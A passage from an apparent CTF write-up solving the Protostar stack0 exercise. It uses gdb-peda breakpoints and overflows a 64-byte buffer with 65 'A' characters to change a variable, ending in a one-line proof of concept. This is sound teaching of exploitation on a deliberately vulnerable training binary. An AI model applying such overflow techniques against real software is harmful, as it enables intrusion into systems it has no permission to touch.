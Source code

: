#### 2.2 Quick Solution

Let's set a breakpoint at addresses **0x08049212** and **0x080491fe** then run the program. Both are the addresses where  **puts** is called (**\<puts@plt\>**).

```nasm
gdb-peda$ b* 0x08049212
Breakpoint 1 at 0x8049212: file 0.c, line 16.
gdb-peda$ b * 0x080491fe
Breakpoint 2 at 0x80491fe: file 0.c, line 14.
```

```x86asm
gdb-peda$ r
Starting program: ./0 
AAAAAAAAA
...TRIM...
Breakpoint 1, 0x08049212 in main (argc=0x1, argv=0xffffd1f4) at 0.c:16
16	      printf("Try again?\n");
```

```x86asm
gdb-peda$ print modified
$1 = 0x0
```

Okay, the variable **modified** equals to **0x0** therefore it prints out "Try again?\n" message.

Let's use 65 uppercase "A" characters then observe output of the same commands. As we calculated the offset length as 64, the offset will be overwritten with this character hence modified is set to the following value.

```x86asm
gdb-peda$ r <<< $(python2 -c 'print "A"*65')
Starting program: /home/thomas/Desktop/protostar/0 <<< $(python2 -c 'print "A"*65')
...TRIM...
Breakpoint 2, 0x080491fe in main (argc=0x1, argv=0xffffd1f4) at 0.c:14
14	      printf("you have changed the 'modified' variable\n");
```
```x86asm
gdb-peda$ print modified
$3 = 0x41
```

It seems like it worked, a PoC in gdb-peda would be as follows.

```py
r <<< $(python2 -c 'print "A"*65')
```

#### 2.3 Final PoC

```py
$ python2 -c "print 'A'*65" | ./0
```

## Protostar-Stack1 Solution
